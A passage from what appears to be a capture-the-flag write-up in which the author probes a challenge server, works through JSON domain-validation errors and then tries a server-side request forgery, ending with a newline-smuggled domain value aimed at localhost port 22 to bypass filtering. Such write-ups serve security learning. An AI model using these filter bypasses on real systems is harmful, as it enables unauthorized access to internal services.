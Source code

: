 This basically loops trough the list of MIME types and sends a [```POST```](https://en.wikipedia.org/wiki/POST_(HTTP)) request to the [server](http://104.236.20.43/) with the MIME type in the [```accept header```](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept)

So, let's check the result:  
![](http://poc-server.com/write-ups/h1/MIME_Accept.gif)  
  
All 406. This means we are either doing something wrong, or the right MIME type is not in the list. Well I guessed it was the first option.  
Oke, so which headers can all contain a MIME type?
Uhm, [```Content-Type```](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)?  
Lets try that.  
So I change this:  
>headers = {"Host":"admin.acme.org", "Accept":value, "Cookie":"admin=yes"}  

To This:  
> headers = {"Host":"admin.acme.org", "Content-Type":value, "Cookie":"admin=yes"}  

Let's try.  
![](http://poc-server.com/write-ups/h1/MIME_Content-Type.gif)  
Notice the 418 status code?  
Well, I did too :stuck_out_tongue:  
>HTTP/1.1 418 I'm a teapot  

Wait, what? Haha
[```418 I'm a teapot```](https://en.wikipedia.org/wiki/Hyper_Text_Coffee_Pot_Control_Protocol)  
So status code 418 is the ```Hyper Text Coffee Pot Control Protocol```  
Well, this doesnt help us since it is just a fun error code, however the body of the response did give us a next clue  

>{"error":{"body":"unable to decode"}}  

Oke, this means we have to send [```JSON```](https://en.wikipedia.org/wiki/JSON) in the [```POST```](https://en.wikipedia.org/wikAi/POST_(HTTP)).  
Let's send an empty JSON object first ```{}```.  
This returns ```{"error":{"domain":"required"}}```  
So next I sent ```{"domain":"https://example.com"}``` which returns ```{"error":{"domain":"incorrect value, .com domain expected"}}```  
Oke, so it wants it to end on .com?  
let's POST ```{"domain":"example.com/.com"}```  
>{"error":{"domain":"incorrect value, sub domain should contain 212"}}  

So we try  
>{"domain":"212@example.com/.com"}  

which returns  
>{"next":"\/read.php?id=1"}  

Oke, nice.
So next we send a [```GET```](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) to ```/read.php?id=1``` containing the ID we just received in the response.  
This gives us the following output: ```{"data":""}```   
So my next thought was that this could be [SSRF](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/).  
Since we know that port 22 is open, let's try to connect to it using the SSRF bug. But first, let's try to bypass the domain filtering.  
What if we try a newline char?  
>{"domain":"212.\nlocalhost:22\n.com"}  
